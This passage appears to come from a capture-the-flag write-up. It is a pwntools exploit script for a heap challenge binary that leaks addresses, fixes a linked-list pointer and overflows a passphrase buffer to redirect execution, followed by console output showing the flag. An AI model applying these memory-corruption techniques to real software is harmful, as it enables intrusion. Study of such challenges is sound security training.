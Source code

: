 ```python
p.sendlineafter(b"> ",b"4")
for i in range(17):
    r = p.recvline(timeout=10)
r = p.recvuntil(b"Use the",drop=True)
node1_addr = ptr_int(r[313:321])

# Leak the address of node 0 in global data
p.sendlineafter(b"> ",b"3")
p.sendlineafter(b"modify: ",b"1")
p.sendlineafter(b"Enter start index: ",b"272")
p.sendlineafter(b"Enter end: ",b"288")
p.sendlineafter(b"String: ",b"80000000"+p64_xor(node1_addr+0x28))

p.sendlineafter(b"> ",b"4")
for i in range(17):
    r = p.recvline(timeout=10)
r = p.recvuntil(b"Use the",drop=True)
base_addr = ptr_int(r[2050:2058])-0x92a0 # Yay!
win_addr = base_addr+0x3bbc

# We need to make sure head->next = NULL before we proceed, or the program will complain while trying to free old nodes
p.sendlineafter(b"> ",b"3")
p.sendlineafter(b"modify: ",b"1")
p.sendlineafter(b"Enter start index: ",b"272")
p.sendlineafter(b"Enter end: ",b"288")
p.sendlineafter(b"String: ",b"80000000"+p64_xor(base_addr+0x92c0))

p.sendlineafter(b"> ",b"3")
p.sendlineafter(b"modify: ",b"2")
p.sendlineafter(b"Enter start index: ",b"0")
p.sendlineafter(b"Enter end: ",b"8")
p.sendlineafter(b"String: ",b"00000000")

# Hijack EIP
p.sendlineafter(b"> ",b"6")
p.sendlineafter(b"//////////////////////////////////", b"2")
p.sendlineafter(b"Passphrase: ",b"0"*2112+p64_xor(win_addr)+b"0"*32000) # Total length must be above 0x8000, below 0x10000
r = p.recvall(timeout=2)
print(r)
```

```console
amarok@ubuntu:~/tisc$ python3 level8_heap.py
[+] Starting local process './some_program': pid 21357
[+] Receiving all data: Done (292B)
[*] Stopped process './some_program' (pid 21357)
b'flag{i_planted_this_flag_on_my_vm_because_challenge_servers_are_no_longer_up}\n\n\n////////////// MENU //////////////\n//  0. Help                     //\n//  1. Do Sanity Test           //\n//  2. Get Recruited            //\n//  3. Exit Program             //\n//////////////////////////////////\n> '
```